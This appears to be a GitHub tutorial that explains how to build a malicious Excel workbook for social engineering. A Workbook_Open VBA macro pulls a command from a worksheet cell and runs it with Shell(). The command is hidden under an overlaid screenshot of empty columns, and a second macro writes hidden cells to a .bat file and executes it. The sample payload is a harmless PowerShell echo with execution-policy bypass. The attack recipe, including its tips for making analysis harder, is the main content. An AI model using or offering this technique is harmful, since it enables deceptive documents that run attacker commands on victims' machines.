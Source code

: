 # Social Engineering Using "Hidden" Macros In Excel

You may ask why not simply use code that doesn't actually touch the workbook and the main reason why is to avoid network traffic. And of course you can simply add macros that will add each line of code into a new file to avoid network traffic but doing so would make the activity obvious to anyone analyzing the document, they will immediately see that the new lines of code upon looking at the macros. With this method, it makes an analysis of the malicious document slightly harder, but not by much of course.

NOTE: Simply running a tool such as oledump or olevba against the document will return the macros.

All that will be shown is that the macro is extracting code from a specific column & executing it using Shell(), which is admittedly still suspicious:

![](/imgs/img1.png)

And if we navigate to BG1 which is where the code appears to be, we don't immediately see anything suspicious:

![](/imgs/img2.png)

But if you hover your mouse over BG1 (or simply look a little more closely & notice the misaligned columns) then you'll see that there's an image overlaying the code:

![](/imgs/img3.png)

![](/imgs/img4.png)

Obviously someone with a bit more patience could perfect the screenshot of the empty columns & overlay it on top of the code to make it less noticable.

Another way to reveal the code being extracted from the worksheet is by using `MsgBox`:

![](/imgs/img5.png)

# Crafting the Document

## What's Needed:

1. Screenshot of a set of empty columns to overlay on top of the code, example:

![](/imgs/img6.png)

2. Macros that extract the code from the workbook & run the data:

```
Private Sub Workbook_Open()
Data = Sheet1.Range("BG1")
Shell(Data)
End Sub
```

* Data = Sheet1.Range("BG1") Simply looks at the row located at BG1 & extracts whatever is in that row & places it inside the variable *Data*

3. Code that will be extracted & executed upon the document opening & the user clicking "Enable Content"

```
powershell.exe -exec bypass -C echo "Hello world" > C:\Users\Desktop\Conduct\Desktop\test.txt
```

After you've inserted the code into whatever column you'd like, simply insert the image of the empty columns over the code (Insert > Illustrations > Pictures)

Then insert the macros in ThisWorkbook & change the **Range()** part to match up with your column. So if you inserted the data in column A and it's on the 1st row, it'd be **Range("A1")**


## Writing Multiple Lines To a File

Writing multiple lines to a file is a piece of cake and only requires the addition of a few lines of code.

The macro code used is here:

```
Private Sub Workbook_Open()
1. Dim Path As String
2. Dim FileNumber As Integer
3. FileNumber = FreeFile
4. Data = Sheet1.Range("BG1")
5. Data2 = Sheet1.Range("BG2")
6. Path = "test.bat"
7. Open Path For Output As FileNumber
8.    Print #FileNumber, Data
9.    Print #FileNumber, Data2
10.    Close FileNumber
11. Shell(Path)
End Sub
```

* Lines 1-3 are static, keep those as is. They simply define the variables used
* Lines 4-6 are dynamic. You will want to change the strings in 4 & 5 to be where your code is located in terms of the excel worksheet. Change line 6 to the file path you desire.
* Lines 7-9 are also dynamic, they simply open the file & write to the file the data that has been extracted. Lines 8 & 9 in particular are the lines responsible for writing the data to the file.


Simply insert the code you want to write to a file into the workbook & take note of the column & row it's located in & change the Data & Data1 variable to match up with your column & row (and add more variables if needed). Then overlay the code in the workbook with the screenshot of the empty rows, and boom!

A sample document is available, I hope this all made sense.
